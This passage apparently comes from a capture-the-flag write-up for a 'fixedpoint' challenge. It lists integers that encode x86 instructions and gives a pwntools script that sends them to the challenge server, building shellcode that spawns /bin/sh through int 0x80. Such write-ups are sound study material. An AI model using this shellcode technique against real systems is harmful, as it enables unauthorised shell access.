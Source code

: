 Here is its output:

```bash
$ ./gen_numbers
10953965 => 0x460003c6 : mov byte ptr [ebx], 0x00 ~> c60300 \0
14975661 => 0x462f03c6 : mov byte ptr [ebx], 0x2f ~> c6032f /
16493296 => 0x4640c031 : xor eax, eax; inc eax ~> 31c040
16963939 => 0x46464040 : inc eax; inc eax ~> 4040
16965949 => 0x46464643 : inc ebx; ~> 43
16967631 => 0x46464b4b : dec ebx; dec ebx ~> 4b4b
16967631 => 0x46464b4b : dec ebx, dec ebx ~> 4b4b
16985516 => 0x464680cd : int 0x80 ~> cd80
17009712 => 0x4646c931 : xor ecx, ecx ~> 31c9
17012720 => 0x4646d231 : xor edx, edx ~> 31d2
17018517 => 0x4646e389 : mov ebx, esp ~> 89e3
19339629 => 0x466203c6 : mov byte ptr [ebx], 0x62 ~> c60362 b
19853037 => 0x466803c6 : mov byte ptr [ebx], 0x68 ~> c60368 h
19938605 => 0x466903c6 : mov byte ptr [ebx], 0x69 ~> c60369 i
```

# Payload

Now the numbers in the first column can be used to create the payload:

```python
#!/usr/bin/env python2

from pwn import *

r = remote('fixedpoint.pwning.xxx', 7777)
#r = remote('localhost', 7777)

payload = [
        '17018517', # mov ebx, esp ~> 89e3
        '16493296', # xor eax, eax; inc eax ~> 31c040
        '16963939', # inc eax; inc eax ~> 4040
        '16963939', # inc eax; inc eax ~> 4040
        '16963939', # inc eax; inc eax ~> 4040
        '16963939', # inc eax; inc eax ~> 4040
        '16963939', # inc eax; inc eax ~> 4040
        '17009712', # xor ecx, ecx ~> 31c9
        '17012720', # xor edx, edx ~> 31d2
        '14975661', # /
        '16965949', # inc ebx
        '19339629', # b
        '16965949', # inc ebx
        '19938605', # i
        '16965949', # inc ebx
        '20366445', # n
        '16965949', # inc ebx
        '14975661', # /
        '16965949', # inc ebx
        '20794285', # s
        '16965949', # inc ebx
        '19853037', # h
        '16965949', # inc ebx
        '10953965', # \0
        '16965949', # inc ebx
        '16967631', # dec ebx; dec ebx;
        '16967631', # dec ebx; dec ebx;
        '16967631', # dec ebx; dec ebx;
        '16967631', # dec ebx; dec ebx;
        '17071084', # int 0x80
        ]
```